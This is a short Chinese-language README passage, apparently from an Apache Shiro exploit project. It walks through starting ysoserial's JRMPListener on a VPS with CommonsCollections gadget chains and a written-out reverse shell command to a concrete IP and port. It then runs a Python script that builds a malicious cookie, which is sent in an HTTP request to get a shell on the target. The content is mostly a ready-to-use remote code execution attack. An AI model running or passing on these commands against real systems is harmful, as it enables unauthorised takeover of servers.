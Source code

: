 

2.在VPS上启动ysoserial的JRMPListener服务

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections4 "反弹shell的命令"

java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections2 "bash -i >& /dev/tcp/39.108.99.6/10086 0>&1"
```

CommonsCollections4也可以换成CommonsCollections2或者其他





3.运行python脚本本地也可以

```
python shiro_exp_payload.py vpsip:1099
```

python脚本将生成cookie

![1565544767938](README.assets/1565544767938.png)

将cookie带入http请求中即可反弹shell

![1565544793335](README.assets/1565544793335.png)
